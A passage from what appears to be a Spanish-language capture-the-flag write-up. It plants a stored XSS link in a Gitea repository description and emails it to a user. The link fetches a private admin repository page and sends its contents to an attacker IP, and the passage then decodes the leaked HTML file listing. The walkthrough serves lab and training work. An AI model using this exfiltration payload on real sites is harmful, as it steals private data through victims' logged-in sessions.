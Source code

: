 Y editamos la descripción del repositorio para poner la ruta `/administrator/Employee-management`.

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Volvemos a mandarle el mismo mail al usuario `jobert@cat.htb`.

Cuando nos llega repetimos el proceso para decodificarlo.

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body>
    ...
	<table id="repo-files-table" class="ui single line table tw-mt-0" >
	    <tbody>
			<tr data-entryname="chart.min.js" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/chart.min.js" title="chart.min.js">chart.min.js</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="dashboard.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/dashboard.php" title="dashboard.php">dashboard.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
```